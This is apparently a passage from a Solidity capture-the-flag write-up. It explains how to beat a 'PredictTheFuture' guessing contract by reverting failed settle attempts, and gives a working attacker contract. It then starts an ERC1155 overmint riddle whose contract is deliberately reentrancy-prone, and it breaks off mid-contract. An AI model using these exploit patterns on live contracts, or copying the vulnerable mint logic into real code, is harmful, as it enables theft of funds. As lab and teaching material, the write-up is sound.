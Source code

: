 ### Exploit

Note that `answer` has to be an integer between 0 and 9 because it is computed modulo 10. Therefore, we can lock in any guess, e.g., 0, and spam the contract by calling `settle` multiple times across multiple blocks. Notice that because `settle` will reset `guesser` to the zero address, we need to ensure the transaction reverts if we guessed wrong. (Otherwise, we'd be required to always call `lockInGuess` before calling `settle`. In particular, we'd be required to pay 1 ether for each attempt, making our spamming strategy unprofitable.)

We can conveniently execute this attack in Remix using the attacker contract below.

NOTE: `lockInGuess` must be called via the attacker contract to pass `require(msg.sender == guesser)` during settlement.

```solidity
//SPDX-License-Identifier: UNLICENSE
pragma solidity ^0.8.13;

import "./PredictTheFuture.sol";

contract ExploitContract {
    PredictTheFuture public predictTheFuture;

    constructor(PredictTheFuture _predictTheFuture) {
        predictTheFuture = _predictTheFuture;
    }

    receive() external payable {} 

    function lockInGuess() external payable {
        predictTheFuture.lockInGuess{value: 1 ether}(0);
    }

    function attack() external {
        predictTheFuture.settle();
        require(predictTheFuture.isComplete(), "Exploit failed");
    }
}
```

## RareSkills Riddles - Overmint1-ERC1155

### Contract

```solidity
// SPDX-License-Identifier: GPL-3.0
pragma solidity 0.8.15;
import "@openzeppelin/contracts/utils/Address.sol";
import "@openzeppelin/contracts/token/ERC1155/ERC1155.sol";
import "@openzeppelin/contracts/token/ERC1155/utils/ERC1155Holder.sol";

contract Overmint1_ERC1155 is ERC1155 {
    using Address for address;
    mapping(address => mapping(uint256 => uint256)) public amountMinted;
    mapping(uint256 => uint256) public totalSupply;

    constructor() ERC1155("Overmint1_ERC1155") {}

    function mint(uint256 id, bytes calldata data) external {
        require(amountMinted[msg.sender][id] <= 3, "max 3 NFTs");
        totalSupply[id]++;
        _mint(msg.sender, id, 1, data);
        amountMinted[msg.sender][id]++;
    }

```